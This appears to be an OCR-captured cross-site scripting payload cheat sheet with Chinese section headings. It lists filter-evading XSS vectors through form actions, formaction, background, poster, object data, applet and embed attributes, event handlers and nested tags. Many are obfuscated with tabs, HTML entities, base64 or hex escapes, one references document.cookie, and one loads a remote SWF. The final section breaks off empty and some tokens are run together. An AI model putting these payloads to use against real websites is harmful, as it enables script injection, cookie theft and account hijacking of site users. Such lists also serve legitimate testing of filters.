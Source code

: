 ```
```
Action
```
    <form action="Javascript:alert(1)"><input type=submit>
    <isindex action="javascript:alert(1)" type=image>
    <isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
    <isindex action=data:text/html, type=image>
```
mario验证
```
<span class="pln">    </span>
<span class="tag">&lt;formaction</span>
<span class="pun">=</span>
<span class="atv">&amp;#039;data:text&amp;sol;html,&amp;lt;script&amp;gt;alert(1)&amp;lt/script&amp;gt&amp;#039;</span>
<span class="tag">&gt;&lt;button&gt;</span><span class="pln">CLICK</span>
```
“formaction”属性
```
    <isindexformaction="javascript:alert(1)"      type=image>
    <input type="image" formaction=JaVaScript:alert(0)>
    <form><button formaction=javascript&colon;alert(1)>CLICKME
```
“background”属性
 ```
    <table background=javascript:alert(1)></table> // Works on Opera 10.5      and IE6
 ```
“posters” 属性
 ```
    <video poster=javascript:alert(1)//></video> // Works Upto Opera 10.5
 ```
“data”属性
```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4="> 
<object/data=//goo.gl/nlX0P?`
 ```

“code”属性

```
    <applet code="javascript:confirm(document.cookie);"> // Firefox Only
    <embed  code="http://businessinfo.co.uk/labs/xss/xss.swf"      allowscriptaccess=always>
```
事件处理
```
    <svg/onload=prompt(1);>
    <marquee/onstart=confirm(2)>/
    <body onload=prompt(1);>
    <select autofocus onfocus=alert(1)>
    <textarea autofocus onfocus=alert(1)>
    <keygen autofocus onfocus=alert(1)>
    <video><source onerror="javascript:alert(1)">
```
短payload
```
    <q/oncut=open()>
    <q/oncut=alert(1)> //      Useful in-case of payload restrictions.
```
嵌套欺骗
```
    <marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>
    <body  language=vbsonload=alert-1 // Works with IE8
    <command onmouseover="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x66\x6    9\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command>      // Works with IE8
```
圆括号被过滤
```
```